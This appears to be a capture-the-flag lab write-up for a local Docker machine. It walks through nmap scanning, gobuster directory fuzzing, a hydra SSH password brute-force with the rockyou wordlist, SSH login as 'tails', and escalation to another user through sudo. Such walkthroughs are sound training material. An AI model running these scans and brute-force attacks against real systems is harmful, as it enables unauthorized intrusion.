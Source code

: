 ![image](https://github.com/user-attachments/assets/af9ec7bf-fe15-4772-b1c4-508c4f199375)

## **we start with the recognition**
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![Pasted image 20250121161633](https://github.com/user-attachments/assets/7d3cafff-96df-4a90-85b1-c725a982846f)
![Pasted image 20250121161650](https://github.com/user-attachments/assets/2e65d131-8f99-4bbe-9aa3-9f5d402f2f96)
![Pasted image 20250121161721](https://github.com/user-attachments/assets/ea036db8-1c10-40f1-bccb-0e66c76f91ae)

## **we have port 80 open and it is a web**

![Pasted image 20250121161753](https://github.com/user-attachments/assets/dc5c2fff-6364-4e0c-8ba6-629bf3240923)

## **there is nothing behind**

![Pasted image 20250121161819](https://github.com/user-attachments/assets/74398c0c-66b2-4e25-b795-32b7ba7d3ace)

## **Fuzzing Web**
```bash
gobuster dir -u http://IPVICTIMA/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

gobuster dir -u http://IPVICTIMA/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

## **and we didn't find anything**

## **but we still have that information 'tails' that we can use**
```bash
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Pasted image 20250121175748](https://github.com/user-attachments/assets/a0bb0efa-65ff-4db3-ba19-693d7559611d)

```bash
ssh tails@172.17.0.2
```
![Pasted image 20250121175952](https://github.com/user-attachments/assets/28c25736-3e4d-4715-b665-81a5bb940c58)

## **user sonic has no root password and has access to everything.**
```bash
sudo -u sonic /bin/bash
```
![Pasted image 20250121180150](https://github.com/user-attachments/assets/f0892a3b-d6cb-43c2-b878-61ac976046c0)





